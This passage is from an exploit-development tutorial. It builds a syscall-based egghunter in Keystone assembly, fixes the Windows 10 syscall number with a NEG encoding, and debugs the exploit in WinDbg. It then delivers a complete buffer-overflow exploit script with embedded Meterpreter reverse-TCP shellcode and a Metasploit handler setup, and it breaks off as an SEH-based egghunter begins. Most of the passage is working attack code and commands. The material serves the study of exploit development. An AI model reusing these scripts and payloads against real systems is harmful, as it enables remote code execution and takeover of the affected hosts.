    "                   "
    " start:            "
    "   xor eax, eax   ;"
    "   add eax, ecx   ;"
    "   push eax       ;"
    "   pop esi        ;"
)

# Initialise engine in 32-bit x86 mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

instructions = ""
for dec in encoding:
    instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")

print(f"Opcodes: {instructions}")
```



*Figure 14.1 - A minimal Keystone script. We declare the instruction set
(`KS_ARCH_X86`, `KS_MODE_32`), assemble the `CODE` string, and format the
output as `\xNN` escape sequences.*

```text
python3 keystonegen.py
```



*Figure 14.2 - Keystone assembles the four instructions and prints the opcodes.
We cross-verify these against `nasm_shell` to confirm they are correct.*

```text
nasm_shell
xor eax, eax
add eax, ecx
push eax
pop esi
```



*Figure 14.3 - `nasm_shell` produces the same opcode bytes as Keystone. Both
assemblers agree, confirming the Keystone setup is working correctly.*

---

## 15. The Syscall-Based Egghunter

### 15.1 Concept: Using the Kernel as a Memory Probe

Before we can read a byte at an arbitrary virtual address, we must know whether
that address is mapped and accessible. If we try to dereference an unmapped page
directly from user space, the CPU raises an access violation that crashes the
process.

The egghunter avoids this by using a **system call** as a proxy: instead of
reading the address itself, it asks the *kernel* to access the address on its
behalf. The kernel returns a status code. If the page is unmapped or protected,
the status code indicates `STATUS_ACCESS_VIOLATION` (`0xC0000005`) and the kernel
returns cleanly to user space - the process does not crash. The egghunter checks
the low byte of the return value (`AL == 0x05`) and skips to the next page if a
violation is detected.

The system call used is `NtAccessCheckAndAuditAlarm`, invoked through the legacy
software interrupt `INT 0x2E` with the call index in EAX.

### 15.2 Full Egghunter Code

The egghunter is 32 bytes when assembled. Every label and instruction is annotated;
the sections that follow break each block down individually. Pay attention to the
register choices: EDX acts as the current probe address, EDI is the string-operation
pointer required by `SCASD`, and EAX holds both the syscall number and the egg
signature at different moments:

```python
from keystone import *

CODE = (
    # We use the edx register as a memory page counter
    " "
    " loop_inc_page: "
            # Go to the last address in the memory page
    "       or dx, 0x0fff ;"

    " loop_inc_one: "
            # Increase the memory counter by one
    "       inc edx ;"

    " loop_check: "
            # Save the edx register which holds our memory address on the stack
    "       push edx ;"

            # Push the system call number
    "       push 0x2 ;"
            # Initialize the call to NtAccessCheckAndAuditAlarm
    "       pop eax ;"

            # Perform the system call
    "       int 0x2e ;"

            # Check for access violation, 0xc0000005 (ACCESS_VIOLATION)
    "       cmp al, 0x05 ;"

            # Restore the edx register to check later for our egg
    "       pop edx ;"

    " loop_check_valid: "
            # If access violation encountered, go to next page
    "       je loop_inc_page ;"

    " is_egg: "
            # Load egg (w00t in this example) into the eax register
    "       mov eax, 0x74303077 ;"

            # Initialize pointer with current checked address
    "       mov edi, edx ;"

            # Compare eax with doubleword at edi and set status flags
    "       scasd ;"

            # No match, increase our memory counter by one
    "       jnz loop_inc_one ;"

            # First part of the egg detected, check for the second part
    "       scasd ;"

            # No match, we found just a location with half an egg
    "       jnz loop_inc_one ;"

    " matched: "
            # The edi register points to the first byte of our buffer
    "       jmp edi ;"
)

# Initialise engine in 32-bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

instructions = ""
for dec in encoding:
    instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")

print(f"Opcodes: {instructions}")
```



*Figure 15.1 - The complete syscall-based egghunter in Keystone assembly. We
will dissect each block in the sections that follow.*

### 15.3 Instruction-by-Instruction Walkthrough

#### `loop_inc_page` - Page Alignment

```python
" loop_inc_page: "
"       or dx, 0x0fff ;"
```



*Figure 15.2 - `OR DX, 0x0FFF` forces bits 0–11 of the low 16 bits of EDX to
`1`. On a page boundary (e.g. `0x12345000`), this produces `0x12345FFF` - the
last byte of that page. The following `INC EDX` will then cross the boundary to
the next page (`0x12346000`). This lets us skip an entire bad page in one
instruction: once we know a page is inaccessible, there is no point probing
every byte inside it.*

#### `loop_inc_one` - Advance the Pointer

```python
" loop_inc_one: "
"       inc edx ;"
```



*Figure 15.3 - `INC EDX` (`\x42`, one byte) moves the candidate address forward
by one. In the normal search path this visits every byte. After a page fault,
`OR DX, 0x0FFF` is called first; the subsequent `INC EDX` skips to the start of
the next page.*

#### `loop_check` - Syscall Block

```python
" loop_check: "
"       push edx ;"
"       push 0x2 ;"
"       pop eax ;"
"       int 0x2e ;"
"       cmp al, 0x05 ;"
"       pop edx ;"
```



*Figure 15.4 - The complete syscall block. Each step is examined individually
below.*

`PUSH EDX` preserves the current candidate address before the system call
corrupts registers:



*Figure 15.5 - We save EDX on the stack because `INT 0x2E` may modify it.*

`PUSH 0x2; POP EAX` loads the syscall number into EAX without null bytes.
`MOV EAX, 0x02` would encode as `\xB8\x02\x00\x00\x00` - three null bytes.
The push/pop sequence is clean:



*Figure 15.6 - `PUSH 0x2` places the immediate on the stack as a single-byte
instruction.*



*Figure 15.7 - `POP EAX` transfers the value into EAX. EAX now holds `0x02` -
the index of `NtAccessCheckAndAuditAlarm` in the Windows XP system call table.*

`INT 0x2E` raises a software interrupt that transfers control to the kernel,
which executes the system call and returns:



*Figure 15.8 - The processor elevates to ring 0, executes the kernel routine,
then returns to user mode. The result code is in EAX.*

`CMP AL, 0x05` checks whether the low byte of the return value equals the
access-violation code. Using `AL` instead of the full `EAX` avoids encoding
`0xC0000005` (which contains null bytes):



*Figure 15.9 - If the kernel could not access the probed page, `AL = 0x05`.
If the page was accessible, `AL` holds a different value.*

`POP EDX` restores the candidate address regardless of the comparison result,
so EDX is valid in both branches:



*Figure 15.10 - EDX is restored. The conditional jump that follows can now
safely branch to `loop_inc_page` or fall through to the egg-check code.*

#### `loop_check_valid` - Skip Bad Pages

```python
" loop_check_valid: "
"       je loop_inc_page ;"
```



*Figure 15.11 - If `AL == 0x05` (access violation), ZF is set and `JE` jumps
to `loop_inc_page`, aligning EDX to the end of the bad page before incrementing
past it. If the page was accessible, the jump is not taken and we fall through
to the egg comparison.*

#### `is_egg` - Egg Comparison with SCASD

```python
" is_egg: "
"       mov eax, 0x74303077 ;"
"       mov edi, edx ;"
"       scasd ;"
"       jnz loop_inc_one ;"
"       scasd ;"
"       jnz loop_inc_one ;"
```



*Figure 15.12 - The egg-check block. Each instruction is examined below.*

`MOV EAX, 0x74303077` loads the 4-byte egg signature `w00t` in little-endian
byte order (`0x77 = 'w'`, `0x30 = '0'`, `0x30 = '0'`, `0x74 = 't'`):



*Figure 15.13 - EAX now holds the first half of our egg marker.*

`MOV EDI, EDX` copies the current candidate address into EDI. `SCASD` requires
its source pointer in EDI specifically - that is how the Intel architecture
defines string operations:



*Figure 15.14 - EDI is now the address we are testing against the egg value.*

`SCASD` compares the DWORD at `[EDI]` with EAX, sets flags, and increments EDI
by 4:

![SCASD - compare [EDI] with EAX; EDI advances by 4](../images/sc84-scasd.png)

*Figure 15.15 - `SCASD` is the atomic "scan string double-word" instruction. In
one operation it tests the current location and advances the pointer.*

The Intel manual confirms the semantics:

![Intel manual - SCASD: compares EAX with [EDI] and increments EDI by 4](../images/sc85-scasd-reference.png)

*Figure 15.16 - The official Intel definition: `SCASD` compares `EAX` against
the DWORD pointed to by `EDI` (using the current ES segment) and increments
`EDI` by 4 (in forward direction). Understanding this ensures we point the
right register at the candidate address.*

If the first half of the egg does not match, `JNZ loop_inc_one` advances EDX
by one and retries from the start:



*Figure 15.17 - The mismatch branch. Most addresses in memory will fail here.*

If the first `w00t` matched, a second `SCASD` checks the next four bytes for
the second `w00t`:



*Figure 15.18 - EDI has already advanced 4 bytes from the first `SCASD`, so the
second call checks `[address+4]`. Both DWORDs must match for a complete
`w00tw00t` hit.*



*Figure 15.19 - If only the first half matched (a false positive, which is
unlikely but possible in heap data), `JNZ` sends us back to advance by one byte.*

#### `matched` - Jump to the Payload

```python
" matched: "
"       jmp edi ;"
```



*Figure 15.20 - After both `SCASD` calls succeed, EDI points 8 bytes past the
start of `w00tw00t` - directly at the first byte of our shellcode. `JMP EDI`
transfers execution there.*

---

## 16. Running the Egghunter - First Attempt

### 16.1 Generating the Opcodes

With the egghunter code complete we run the Keystone script to get the raw opcode
string. The output is formatted as Python `\xNN` escape sequences, ready to be
pasted directly into the exploit:

```text
python3 keystonegen.py
```



*Figure 16.1 - Keystone assembles the complete egghunter and prints the null-free opcode string. We verify the length (32 bytes) fits comfortably inside our 251-byte crash buffer with room for a NOP sled and padding.*

### 16.2 Adding the Egghunter to the Exploit

The egghunter replaces the A-filler. We prefix it with eight NOP bytes (`\x90`)
as a landing sled - this absorbs any minor position jitter and ensures the
conditional jump from the method field lands squarely in executable egghunter
code rather than partway through an instruction. The secondary buffer carrying
the egg marker and dummy shellcode travels in the HTTP body after `\r\n\r\n`:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    egghunter = (b"\x90" * 8) + b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
    filler    = b"A" * (253 - len(egghunter))
    EIP       = pack("<L", 0x418674)
    shellcode = b"w00tw00t" + b"D" * 400
    payload   = method + egghunter + filler + EIP + b"\r\n\r\n" + shellcode

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 16.2 - The egghunter replaces the A-filler. Eight NOP bytes precede it
as a small landing sled. The remaining A bytes pad out to the full 253-byte
offset.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 16.3 - The complete first egghunter exploit is delivered. Both buffers are now in flight - the 32-byte egghunter in the URL path and the 408-byte egg+dummy payload in the HTTP body.*



*Figure 16.4 - The application crashes. We now step through the redirect chain
to verify the egghunter is reached.*

Step to the conditional jump in the method field:

```text
ph
```



*Figure 16.5 - `ph` (proceed to next branch) stops at the `JZ` in the method
field. EIP is about to jump into our crash buffer.*

Verify the egghunter is correctly positioned:

```text
u 04f0ea8f L16
```



*Figure 16.6 - Disassembling the target of the jump shows the egghunter
instructions exactly as assembled. No bytes were corrupted in transit.*

Confirm the secondary buffer is still in memory:

```text
s -a 0x0 L?80000000 w00tw00t
```



*Figure 16.7 - The search finds `w00tw00t` at a heap address. Both buffers are
in memory simultaneously - the egghunter only needs to find the secondary one.*

Set a breakpoint on the final `JMP EDI`:

```text
bp 04f0eab3
```



*Figure 16.8 - A breakpoint on `JMP EDI` will tell us the exact moment the
egghunter finds the egg.*

Suppress first-chance access violations (expected during scanning) and continue:

```text
sxn av
g
```



*Figure 16.9 - The egghunter is scanning. First-chance access violations appear
as it probes unmapped pages. The process does not crash - those are handled by
the kernel returning `STATUS_ACCESS_VIOLATION` to the egghunter. However, the
`JMP EDI` breakpoint is never hit. The egghunter loops forever without finding
the egg. Something is wrong with the system call.*


---

## 17. Debugging the Syscall Number

### 17.1 Why the Egghunter Loops

The egghunter uses syscall index `0x02` for `NtAccessCheckAndAuditAlarm`. On
Windows XP that index was correct. On Windows 10 the system call table has been
significantly extended and renumbered. An incorrect syscall index causes the
kernel to execute a *different* function - one that does not perform the memory
probe we need. The egghunter never gets a meaningful return value and loops
indefinitely.

We re-run and step to the egghunter to investigate:

```text
python3 eggh.py 10.0.2.15
```



*Figure 17.1 - A clean re-run with the debugger attached so we can step into the egghunter and inspect the syscall registers before the `INT 0x2E` instruction fires.*



*Figure 17.2 - The application crashes as expected. The redirect chain (gadget → method-field jump → egghunter) must be re-walked with `ph` commands to reach the egghunter entry point.*

```text
ph
ph
```



*Figure 17.3 - Two `ph` (proceed to next branch) commands walk past the `POP EAX; RET` gadget and the conditional jump in the method field. EIP is now at the first NOP byte of our egghunter landing sled.*

```text
u 04f3ea8f L16
```



*Figure 17.4 - The egghunter instructions are intact. We set a breakpoint on
the `INT 0x2E` instruction to inspect the register state just before the
syscall.*

```text
bp 04f3ea9f
```



*Figure 17.5 - A breakpoint is set precisely on the `INT 0x2E` opcode inside the egghunter. When the breakpoint fires, we can inspect EAX to see what syscall number is being passed to the kernel.*

```text
g
```



*Figure 17.6 - The breakpoint fires. EAX holds `0x02` (the syscall number) and
EDX holds the current probe address. EAX is the problem: we need the correct
index for this system.*

### 17.2 Finding the Correct Syscall Number

Query `ntdll` directly to find the actual syscall number for
`NtAccessCheckAndAuditAlarm` on this system:

```text
u ntdll!NtAccessCheckAndAuditAlarm
```



*Figure 17.7 - The disassembly of the `NtAccessCheckAndAuditAlarm` stub in
`ntdll.dll` shows `MOV EAX, 0x1C8`. The correct syscall index on this Windows
10 build is `0x1C8`, not `0x02`.*

### 17.3 The Null-Byte Problem with 0x1C8

With the correct index identified, the naive fix is to swap `PUSH 0x2` for
`PUSH 0x1C8`. But `0x1C8` is larger than a single byte, so it assembles as a
4-byte immediate - `PUSH 0x000001C8` - which contains two null bytes. Those
null bytes would terminate the URL-path copy and truncate the egghunter before
it reaches the interrupt. We need a different encoding strategy.

We update the egghunter to use `PUSH 0x1C8; POP EAX` and regenerate to confirm
the problem:

```python
from keystone import *

CODE = (
    " "
    " loop_inc_page: "
    "       or dx, 0x0fff ;"
    " loop_inc_one: "
    "       inc edx ;"
    " loop_check: "
    "       push edx ;"
            # Updated syscall number
    "       push 0x1C8 ;"
    "       pop eax ;"
    "       int 0x2e ;"
    "       cmp al, 0x05 ;"
    "       pop edx ;"
    " loop_check_valid: "
    "       je loop_inc_page ;"
    " is_egg: "
    "       mov eax, 0x74303077 ;"
    "       mov edi, edx ;"
    "       scasd ;"
    "       jnz loop_inc_one ;"
    "       scasd ;"
    "       jnz loop_inc_one ;"
    " matched: "
    "       jmp edi ;"
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

instructions = ""
for dec in encoding:
    instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")

print(f"Opcodes: {instructions}")
```



*Figure 17.8 - The updated script uses `PUSH 0x1C8` as the syscall number.*

```text
python3 keystonegen.py
```



*Figure 17.9 - The generated opcodes contain `\x00\x00` bytes from encoding
`0x1C8` as a 4-byte immediate (`PUSH 0x000001C8`). These null bytes would
terminate the URL-path copy and break the egghunter before it reaches the
interrupt. We need a null-free encoding.*

---

## 18. The NEG Trick: Null-Free Encoding of 0x1C8

### 18.1 Arithmetic Encoding

The trick is to compute `0x1C8` *at runtime* from a value that has no null bytes
in its encoding:

```text
? 0x00 - 0x1C8
```



*Figure 18.1 - `0x00000000 - 0x000001C8 = 0xFFFFFE38`. The arithmetic complement of `0x1C8` is `0xFFFFFE38`, which encodes as `\xB8\x38\xFE\xFF\xFF` - five bytes, zero of them null. Applying `NEG` at runtime produces exactly `0x000001C8` in EAX, ready for the interrupt.*

We encode the sequence as:

```nasm
MOV EAX, 0xFFFFFE38   ; \xB8\x38\xFE\xFF\xFF - no nulls
NEG EAX               ; EAX = 0 - 0xFFFFFE38 = 0x000001C8
```

`NEG` computes two's complement negation: `0 - 0xFFFFFE38 = 0x000001C8`. The
result in EAX is exactly the syscall number we need, achieved without a single
null byte.

### 18.2 Updated Egghunter Script

```python
from keystone import *

CODE = (
    " "
    " loop_inc_page: "
    "       or dx, 0x0fff ;"
    " loop_inc_one: "
    "       inc edx ;"
    " loop_check: "
    "       push edx ;"
            # Null-free encoding of syscall 0x1C8
    "       mov eax, 0xfffffe38 ;"
    "       neg eax ;"
    "       int 0x2e ;"
    "       cmp al, 0x05 ;"
    "       pop edx ;"
    " loop_check_valid: "
    "       je loop_inc_page ;"
    " is_egg: "
    "       mov eax, 0x74303077 ;"
    "       mov edi, edx ;"
    "       scasd ;"
    "       jnz loop_inc_one ;"
    "       scasd ;"
    "       jnz loop_inc_one ;"
    " matched: "
    "       jmp edi ;"
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)

instructions = ""
for dec in encoding:
    instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")

print(f"Opcodes: {instructions}")
```



*Figure 18.2 - The updated egghunter uses the `MOV + NEG` encoding. No null
bytes appear in either instruction.*

```text
python3 keystonegen.py
```



*Figure 18.3 - The generated opcodes are free of null bytes. The egghunter is
now compatible with this Windows 10 target and can survive the URL-path copy.*

---

## 19. Getting a Shell - Syscall Egghunter

### 19.1 Updated Exploit

With the null-free `MOV EAX, 0xFFFFFE38; NEG EAX` encoding in place, we
substitute the new egghunter opcode string into the exploit. The rest of the
payload structure stays exactly the same - method-field jump, egghunter in the
crash buffer, egg marker and dummy shellcode in the HTTP body:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    egghunter = (b"\x90" * 8) + b"\x66\x81\xca\xff\x0f\x42\x52\xb8\x38\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7" 
    filler    = b"A" * (253 - len(egghunter))
    EIP       = pack("<L", 0x418674)
    shellcode = b"w00tw00t" + b"D" * 400
    payload   = method + egghunter + filler + EIP + b"\r\n\r\n" + shellcode

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 19.1 - The exploit with the `MOV EAX, 0xFFFFFE38; NEG EAX` encoding.*

```text
python3 eggh.py 10.0.2.15
```



*Figure 19.2 - The updated payload is delivered to the target. The egghunter bytes in the crash buffer now contain the null-free Windows 10 syscall encoding; the HTTP body still carries the egg-prefixed dummy shellcode.*



*Figure 19.3 - Disassembling the egghunter in memory confirms `MOV EAX,
0xFFFFFE38; NEG EAX` is in place and the encoding is null-free.*

Set a breakpoint on `JMP EDI`:

```text
bp 039beab7
```



*Figure 19.4 - A breakpoint is placed on the `JMP EDI` - the very last instruction of the egghunter. When this fires, EDI will point exactly 8 bytes past the start of `w00tw00t`, at the first byte of our shellcode.*

```text
g
```


*Figure 19.5 - Execution resumes. First-chance access violations flow as the egghunter probes unmapped pages using `INT 0x2E`. The kernel returns `STATUS_ACCESS_VIOLATION` (AL = 0x05) for each unmapped page and the egghunter advances to the next - the process stays alive.*



*Figure 19.6 - The `JMP EDI` breakpoint fires. The egghunter has scanned through the process virtual address space and located the `w00tw00t` egg marker in the heap allocation. EDI now points at the payload.*

Inspect the target:

```text
dc @edi - 0x08
```



*Figure 19.7 - Dumping 8 bytes before EDI shows `w00tw00t` followed by the
`D` bytes. EDI points exactly at byte 9 - the first byte of the shellcode. The
egghunter is working correctly.*

### 19.2 Secondary Buffer Bad Character Check

The secondary buffer travels through different server code paths than the URL
path. A byte that survived the URL path might be corrupted in the HTTP body.
Before placing real shellcode, we verify the secondary buffer region is clean:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    egghunter = (b"\x90" * 8) + b"\x66\x81\xca\xff\x0f\x42\x52\xb8\x38\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7"
    filler    = b"A" * (253 - len(egghunter))
    EIP       = pack("<L", 0x418674)
    badchars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
    shellcode = b"w00tw00t" + badchars + b"D" * (400 - len(badchars))
    payload   = method + egghunter + filler + EIP + b"\r\n\r\n" + shellcode

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 19.8 - The full byte range `\x01–\xff` is placed in the secondary buffer
after the egg marker. At the `JMP EDI` breakpoint we inspect memory.*

```text
python3 eggh.py 10.0.2.5
```



*Figure 19.9 - The bad-character test payload is delivered. The full `\x01–\xff` byte range travels in the HTTP body behind the egg marker. We now let the egghunter find it and inspect the bytes in WinDbg.*

At the `JMP EDI` breakpoint:

```text
db @edi L110
```



*Figure 19.10 - Every byte in the secondary buffer arrived intact. The HTTP
body does not impose the same character restrictions as the URL path. We can
use any byte value in our shellcode here.*

### 19.3 Final Exploit with Meterpreter Shell

The secondary buffer has no bad characters beyond the universal set (`\x00`,
`\x0a`, `\x0d`, `\x20`, `\x25`). We generate a Meterpreter reverse-TCP
payload with `msfvenom` excluding those five bytes, prefix it with the egg
marker, and drop it into the HTTP body:

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method    = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"
    egghunter = (b"\x90" * 8) + b"\x66\x81\xca\xff\x0f\x42\x52\xb8\x38\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7" 
    filler    = b"A" * (253 - len(egghunter))
    EIP       = pack("<L", 0x418674)
    shellcode  = b""
    shellcode += b"\x90" * 8
    shellcode += b"\xb8\x44\x35\x1d\x4a\xdb\xcb\xd9\x74\x24\xf4"
    shellcode += b"\x5f\x2b\xc9\xb1\x5e\x31\x47\x15\x83\xc7\x04"
    shellcode += b"\x03\x47\x11\xe2\xb1\xc9\xf5\xc5\x39\x32\x06"
    shellcode += b"\xba\x08\xe0\x8f\xdf\x0e\x8f\xc2\x2f\x45\xdd"
    shellcode += b"\xee\xc4\x0b\xf6\x65\xa8\x83\xf9\xce\x07\xf5"
    shellcode += b"\x34\xce\xa9\x39\x9a\x0c\xab\xc5\xe1\x40\x0b"
    shellcode += b"\xf4\x29\x95\x4a\x31\xfc\xd3\xa3\xef\xa8\x90"
    shellcode += b"\x6e\x1f\xdc\xe5\xb2\x1e\x32\x62\x8a\x58\x37"
    shellcode += b"\xb5\x7f\xd4\x36\xe6\x0b\xbc\x18\x56\x87\x74"
    shellcode += b"\x41\x57\x44\x01\xb8\x23\x56\x38\xc4\x85\x2d"
    shellcode += b"\x0e\xb1\x17\xe4\x5f\x05\xbb\xc9\x50\x88\xc5"
    shellcode += b"\x0e\x56\x73\xb0\x64\xa5\x0e\xc3\xbe\xd4\xd4"
    shellcode += b"\x46\x21\x7e\x9e\xf1\x85\x7f\x73\x67\x4d\x73"
    shellcode += b"\x38\xe3\x09\x97\xbf\x20\x22\xa3\x34\xc7\xe5"
    shellcode += b"\x22\x0e\xec\x21\x6f\xd4\x8d\x70\xd5\xbb\xb2"
    shellcode += b"\x63\xb1\x64\x17\xef\x53\x72\x27\x10\xac\x7b"
    shellcode += b"\x75\x87\x61\xb6\x86\x57\xed\xc1\xf5\x65\xb2"
    shellcode += b"\x79\x92\xc5\x3b\xa4\x65\x5f\x2b\x57\xb9\xe7"
    shellcode += b"\x3b\xa9\x3a\x18\x12\x6e\x6e\x48\x0c\x47\x0f"
    shellcode += b"\x03\xcc\x68\xda\xbe\xc6\xfe\xef\x3e\xd4\xfb"
    shellcode += b"\x87\x3c\xd8\x02\xe3\xc8\x3e\x54\x43\x9b\xee"
    shellcode += b"\x15\x33\x5b\x5e\xfe\x59\x54\x81\x1e\x62\xbe"
    shellcode += b"\xaa\xb5\x8d\x17\x83\x21\x37\x32\x5f\xd3\xb8"
    shellcode += b"\xe8\x1a\xd3\x33\x19\xdb\x9a\xb3\x68\xcf\xcb"
    shellcode += b"\xa3\x92\x0f\x0c\x46\x93\x65\x08\xc0\xc4\x11"
    shellcode += b"\x12\x35\x22\xbe\xed\x10\x30\xb8\x12\xe5\x01"
    shellcode += b"\xb3\x25\x73\x2e\xab\x49\x93\xae\x2b\x1c\xf9"
    shellcode += b"\xae\x43\xf8\x59\xfd\x76\x07\x74\x91\x2b\x92"
    shellcode += b"\x77\xc0\x98\x35\x10\xee\xc7\x72\xbf\x11\x22"
    shellcode += b"\x01\xb8\xee\xb1\x2e\x61\x87\x49\x6f\x91\x57"
    shellcode += b"\x23\x6f\xc1\x3f\xb8\x40\xee\x8f\x41\x4b\xa7"
    shellcode += b"\x87\xc8\x1a\x05\x39\xcd\x36\xcb\xe7\xce\xb5"
    shellcode += b"\xd0\x18\xb5\xb6\xe7\xd8\x4a\xdf\x83\xd8\x4b"
    shellcode += b"\xdf\xb5\xe5\x9a\xe6\xc3\x28\x1f\x5d\xcb\xb6"
    shellcode += b"\xb5\xa8\x64\x6f\x5c\x11\xe9\x90\x8b\x56\x14"
    shellcode += b"\x13\x39\x27\xe3\x0b\x48\x22\xaf\x8b\xa1\x5e"
    shellcode += b"\xa0\x79\xc5\xcd\xc1\xab"
    egg     = b"w00tw00t" + shellcode + b"D" * (500 - len(shellcode))
    payload = method + egghunter + filler + EIP + b"\r\n\r\n" + egg

    print("[+] Sending Evil Buffer...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 19.11 - The complete exploit. The egg marker `w00tw00t` prefixes the Meterpreter reverse-shell payload in the secondary buffer. The padding`D` bytes after the shellcode ensure the heap allocation stays at a consistent size between runs.*

Set up the handler:

```text
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost eth0
set lport 443
set exitfunc thread
exploit
```



*Figure 19.12 - The Metasploit `multi/handler` is configured with matching `LHOST`, `LPORT`, and `exitfunc thread` so the handler does not kill the target process when our session ends.*

```text
python3 eggh.py 10.0.2.5
```



*Figure 19.13 - The final syscall-egghunter exploit is sent. The egghunter scans memory, finds the egg, jumps to the Meterpreter shellcode, and the reverse connection triggers the handler.*



*Figure 19.14 - A Meterpreter session opens. The syscall-based egghunter successfully scanned from `0x00000000` upward, located `w00tw00t` on the heap, and transferred execution to the reverse-shell payload - all within the 251-byte URL-path buffer.*

> The syscall-based egghunter works, but it requires knowing the correct syscall
> index for the target OS version and build. Windows updates can change this
> index. Section 20 introduces the SEH-based egghunter, which replaces the
> syscall probe with a custom exception handler and works across all Windows
> versions without any hardcoded index.
{: .prompt-info }

---

## 20. The SEH-Based Egghunter

### 20.1 The Portability Problem

Instead of asking the kernel to probe memory, the SEH-based egghunter installs
a custom `_EXCEPTION_REGISTRATION_RECORD` on the stack and points
`FS:[0]` at it. When the egg scan (`REPE SCASD`) faults on an inaccessible page,
the Windows exception dispatcher calls our custom handler. The handler modifies
the saved EIP in the `CONTEXT` structure to skip the faulting instruction and
resume at `loop_inc_page`. No system call number is needed - the technique works
identically on Windows XP, 7, 10, and 11.

### 20.2 Full Egghunter Code

The SEH-based egghunter fits in 63 bytes (69 bytes with the StackBase forge).
The code is organized into five logically distinct regions: the entry jump,
the SEH-record builder, the scan loop, the page-skip handler, and the exception
handler body. Read the CALL/POP relationship carefully - it is the key insight
that makes the entire design position-independent:

```python
from keystone import *

CODE = (
    # Jump forward so we can obtain our current address
    # using a CALL/POP technique
    "start:                             "
    "       jmp get_seh_address;               "

    # -----------------------------------------------------------------
    # Build a custom SEH record
    # -----------------------------------------------------------------
    "build_exception_record:            "

            # Pop the return address from the CALL below.
            # This address becomes our exception handler.
    "       pop ecx;                           "

            # Load our egg signature ("w00t")
